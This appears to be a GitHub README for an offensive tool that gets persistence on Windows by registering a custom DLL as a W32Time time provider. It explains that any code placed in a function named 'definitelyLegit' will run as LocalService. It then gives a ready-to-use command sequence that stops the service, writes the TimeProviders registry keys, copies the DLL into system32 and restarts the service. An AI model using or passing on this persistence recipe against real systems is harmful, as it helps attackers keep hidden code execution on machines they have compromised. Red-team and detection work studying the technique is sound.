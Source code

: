 # w32TimePersistence

Windows high-privilege persistence technique that consists in adding a new Time Provider and writing a custom DLL based off of [this](https://learn.microsoft.com/en-us/windows/win32/sysinfo/sample-time-provider) Sample Time Provider DDL template from Microsoft to execute code as the `LocalService` user.

## Usage
To use this technique, put whatever code you want to execute inside the `definitelyLegit` function in the [library.cpp](https://github.com/otterpwn/w32TimePersistence/blob/main/library.cpp) file, compile the DLL and perform the following steps

1. Stop the w32time service
2. Add a registry entry for a new Time Provider pointing the DllName key to our DLL
3. Enable the new Time Provider and set it as a input Time Provider
4. Copy our DLL into the desired location
5. Start the process up again

```
sc stop w32time

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "DllName" /d "%systemroot%\system32\w32TimePersistence.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "InputProvider" /d "1" /f

copy w32TimePersistence.dll C:\windows\system32\

sc start w32time
```

